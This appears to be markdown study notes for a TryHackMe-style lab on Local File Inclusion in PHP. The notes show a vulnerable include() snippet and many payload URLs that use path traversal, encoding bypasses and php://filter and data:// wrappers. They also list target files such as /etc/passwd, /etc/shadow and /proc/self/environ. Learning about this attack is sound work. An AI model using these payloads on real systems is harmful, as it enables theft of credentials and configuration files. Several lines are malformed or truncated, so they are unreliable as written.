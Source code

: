 ### How does an LFI Attack Work

A Local File Inclusion can occur when an application includes a file as user input without properly validating it. This flaw enables an attacker to include malicious files by manipulating the input.

The following vulnerable PHP code could lead to LFI:

`https://website-example.com/?page=filename.php`

`https://website-example.com/?page=../../../../etc/test.txt`

`http://www.example_target_website.com/download.php?file=document.html`

`http://www.example_target_website.com/download.php?file=../../../../etc/passwd`

`https://example-vulnerable-website.com/?module=contact.php`

`https://example-vulnerable-website.com/?module=/etc/passwd`

`https://example-vulnerable-website.com/?module=uploads/image123.gif`

`https://example-vulnerable-website.com/?helpfile=login.txt`

`https://example-vulnerable-website.com/?helpfile=../secret/.htpasswd`

`https://example-vulnerable-website.com/?download=brochure.pdf`

`https://example-vulnerable-website.com/?download=../include/connection.php`

## LFI

### An LFI vulnerability is found in various web applications. As an example, in the PHP, the following functions cause this kind of vulnerability:

    include
    require
    include_once 
    require_once`

The following is an example of PHP code that is vulnerable to LFI.

`<?PHP 
	include($_GET["file"]);
?>`   

### The PHP code above uses a GET request via the URL parameter file to include the file on the page. The request can be made by sending the following HTTP request: http://example.thm.labs/index.php?file=welcome.txt to load the content of the welcome.txt file that exists in the same directory

`/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdlin`

`http://example.thm.labs/page.php?file=/etc/passwd 

http://example.thm.labs/page.php?file=../../../../../../etc/passwd

http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00

http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd 

http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd`

### The PHP filter wrapper is used in LFI to read the actual PHP page content.
	we can use the PHP filter to display the content of PHP files in other encoding formats such as `base64` or `ROT13`.

`http://example.thm.labs/page.php?file=php://filter/resource=/etc/passwd`

### We can read the index.php file using a PHP filter; we get errors because the web server tries to execute the PHP code. To avoid this, we can use a PHP filter while base64 or ROT13 encoding the output as follows:

`http://example.thm.labs/page.php?file=filter/read=string.rot13/resource=/etc/passwd 

http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd'

###  eg. ``echo "AoC3 is fun!" | base64 QW9DMyBpcyBmdW4hCg==`
        `echo "QW9DMyBpcyBmdW4hCg==" | base64 --decode AoC3 is fun!`

### Now we can include our base64 data into the vulnerable page as follows,
    `http://example.thm.labs/page.php?file=data://text/plain;base64,QW9DMyBpcyBmdW4hCg==`

### we provide a vulnerable web application that logs users' requests into a log file to which the webserver user has access. Once we log into the web application, we can visit the log page at 
`https://LAB_WEB_URL.p.thmlabs.com/logs.php.`            
            

